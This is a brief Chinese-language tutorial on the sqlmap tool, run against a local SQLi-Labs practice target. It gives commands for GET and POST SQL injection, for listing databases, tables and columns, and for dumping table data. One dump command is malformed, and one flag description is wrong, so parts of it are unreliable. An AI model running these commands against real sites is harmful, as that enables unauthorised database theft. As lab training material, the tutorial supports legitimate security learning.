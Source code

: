 ﻿# sqlmap的使用

sql注入（get型）

---
python sqlmap.py -u http://127.0.0.1/sqli/less-1/?id=1

python sqlmap.py -u http://127.0.0.1/sqli/less-1/?id=1&page=10 -p page

python sqlmap.py -u http://127.0.0.1/sqli/less-1/?id=1&page=10 -p page -batch

<font color="DeepSkyBlue">**-u:指定URL**</font>

<font color="DeepSkyBlue">**-p:指定注入点**</font>

<font color="DeepSkyBlue">**-batch自动化测试，需要选择全部默认Y（注入过程可能比较久）:**</font>

    http://127.0.0.1/sqli/less-1/?id=1 --dbs
    
    --dbs:获取数据库名字
    
    ----------------------------------------------
    
    http://127.0.0.1/sqli/less-1/?id=1 -D security --tables
    
    --tables:获取数据库名
    -D指定数据库
    
     ---------------------------------------------
     
     http://127.0.0.1/sqli/less-1/?id=1 -D security -T user -columns
     
    --columns:获取字段名
    -T指定表名
    
     ---------------------------------------------
     
      http://127.0.0.1/sqli/less-1/?id=1 -D security -T user -T security -T user -C id,--dump
      
    --dump:获取数据（拖库（无授权情况下禁止使用））
    -C指定列名

---
###多目标测试（get型）
    python sqlmap.py -m test.txt
    
    -m:指定目标文件
    
    首先要创建好指定URL写入txt文档中

---

测试POST型注入

    python sqlmap.py -r test.txt
    -r:指定要测试的数据包

